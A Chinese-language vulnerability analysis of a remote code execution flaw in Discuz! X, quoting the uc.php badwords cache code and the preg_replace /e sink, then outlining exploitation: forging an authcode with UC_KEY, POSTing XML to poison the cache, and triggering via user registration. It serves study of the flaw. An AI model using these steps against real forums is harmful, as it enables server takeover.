



##Discuz! X系列远程代码执行漏洞分析
api/uc.php 中有这个函数

	function updatebadwords($get, $post) {
        global $_G;
 
        if(!API_UPDATEBADWORDS) {
            return API_RETURN_FORBIDDEN;
        }
 
        $data = array();
        if(is_array($post)) {
            foreach($post as $k => $v) {
                $data['findpattern'][$k] = $v['findpattern'];
                $data['replace'][$k] = $v['replacement'];
            }
        }
        $cachefile = DISCUZ_ROOT.'./uc_client/data/cache/badwords.php';
        $fp = fopen($cachefile, 'w');
        $s = "<?php\r\n";
        $s .= '$_CACHE[\'badwords\'] = '.var_export($data, TRUE).";\r\n";
        fwrite($fp, $s);
        fclose($fp);
 
        return API_RETURN_SUCCEED;
    }
    
    
本来是匹配字符串中不文明的字符，

    
	function check_usernamecensor($username) {
		$_CACHE['badwords'] = $this->base->cache('badwords');
		$censorusername = $this->base->get_setting('censorusername');
		$censorusername = $censorusername['censorusername'];
		$censorexp = '/^('.str_replace(array('\\*', "\r\n", ' '), array('.*', '|', ''), preg_quote(($censorusername = trim($censorusername)), '/')).')$/i';
		$usernamereplaced = isset($_CACHE['badwords']['findpattern']) && !empty($_CACHE['badwords']['findpattern']) ? @preg_replace($_CACHE['badwords']['findpattern'], $_CACHE['badwords']['replace'], $username) : $username;
		if(($usernamereplaced != $username) || ($censorusername && preg_match($censorexp, $username))) {
			return FALSE;
		} else {
			return TRUE;
		}
	}

但是在uc_client/model/user.php 中使用了preg_replace()函数进行匹配，我们知道在preg_[match|replace|matchall]中如果匹配字符中有/e参数的话，是可以把第二个参数当作命令执行的。

discuz中的用户交互都是用uc_key进行加密的。所以我们要先输出一下我们加密后的url。这样是因为之后会使用action之后的参数作为要执行的函数。，而time是因为要进行时间判断，如果超过60分钟就会提示 `Authracation has expiried` 时间超时
    
    $a = "time=". time() ."&action=updatebadwords";
	echo _authcode($a, 'ENCODE', UC_KEY);
	exit();

输出的是 
`4d28h0SBx+FkZPHcVochr3dMqShRmTiXl/75Z94JxgCuzBYpx6BcjXRnbr5q04fH/EWN/VPC51iJArv2hn2tlvxK`

然后我们需要发送post请求，因为有`$post = xml_unserialize(file_get_contents('php://input'));`

这个会接受所有的post值然后进行xml的反序列化，就是我们发送一个xml格式的数据，然后被他反序列化成数组。之后就会写入到uc_client/data/cache/badwords.php 

然后在新建一个用户什么的，就触发了。

